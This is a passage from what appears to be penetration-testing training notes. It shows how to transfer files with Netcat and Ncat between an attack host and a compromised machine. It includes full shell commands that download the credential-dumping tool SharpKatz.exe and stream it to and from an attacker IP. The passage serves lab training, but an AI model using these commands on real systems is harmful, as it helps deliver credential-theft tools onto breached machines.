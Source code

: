 we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

  Ncat - Attack Host - Sending File to Compromised machine

```shell-session
gdxqpardo@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
gdxqpardo@htb[/htb]$ # Example using Ncat
gdxqpardo@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.
#### Attack Host - Sending File as Input to Netcat

  Attack Host - Sending File as Input to Netcat

```shell-session
gdxqpardo@htb[/htb]$ # Example using Original Netcat
gdxqpardo@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```


Compromised machine connect to netcat to receive the file->
```
#Using original netcat
nc MACHINE_IP PORT > FILENAME.exe
```

#### Attack Host - Sending File as Input to Ncat

  Attack Host - Sending File as Input to Ncat

```shell-session
gdxqpardo@htb[/htb]$ # Example using Ncat
gdxqpardo@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

  Compromised Machine Connect to Ncat to Receive the File

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

